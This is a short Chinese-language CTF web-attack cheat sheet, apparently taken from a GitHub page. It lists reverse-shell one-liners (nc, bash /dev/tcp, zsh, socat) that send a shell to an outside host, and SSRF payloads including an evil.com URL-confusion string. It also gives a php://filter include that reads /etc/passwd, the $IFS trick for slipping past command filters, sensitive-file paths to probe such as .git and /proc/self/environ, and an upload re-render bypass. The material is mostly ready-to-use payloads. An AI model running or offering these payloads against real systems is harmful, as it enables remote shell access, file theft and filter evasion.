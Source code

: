 ## 反弹shell
```sh
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```
## ssrf常用payload
`admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php`
`file://user@evil.com:80@www.google.com//var/www/html/index.php%23`

## php7 直接崩溃bug
`include(‘php://filter/string.strip_tags/resource=/etc/passwd’)`
## $IFS
空格可以使用$IFS代替

## 敏感文件
robots.txt .git .svn .swp ~ .bak 源码，目录泄露
.git泄露利用EXP:https://github.com/lijiejie/GitHack
.DS_Store 利用: https://github.com/lijiejie/ds_store_exp
进程环境变量: /proc/self/environ 

## 上传二次渲染
有时候上传文件时php会用组件把你的文件格式更改为jpg，需要用/ctf/web/php/php_jpg.php中的脚本进行绕过